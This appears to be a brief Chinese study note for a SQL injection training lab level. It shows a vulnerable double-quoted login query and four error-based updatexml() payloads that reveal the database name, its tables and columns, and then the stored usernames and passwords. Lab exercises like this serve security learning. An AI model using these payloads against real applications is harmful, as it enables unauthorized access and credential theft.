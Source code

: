 ```yaml
---
title: less14
url: https://www.yuque.com/u29002979/ep2zrx/mi0osadlf96k83pm
---
```


```bash
$uname='"'.$uname.'"';
$passwd='"'.$passwd.'"'; 
@$sql="SELECT username, password FROM users WHERE username=$uname and password=$passwd LIMIT 0,1";
```

与Less12的区别闭合方式为**" **&#x20;
`1"`

> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"1"" and password="" LIMIT 0,1' at line 1

继续使用updataxml()函数

```bash
查询数据库表
-1" or updatexml(1,concat(0x7e,(select database()),0x7e),1) -- +
爆破数据表
-1" or updatexml(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema=database() limit 2,1),0x7e),1) -- +
爆破字段名
-1" or updatexml(1,concat(0x7e,(select group_concat(column_name)from information_schema.columns where table_name='users' limit 8,1),0x7e),1) -- +
爆破字段
-1" or updatexml(1,concat(0x7e,(select group_concat(username,0x7e,password) from users limit 0,1),0x7e),1) -- +
```
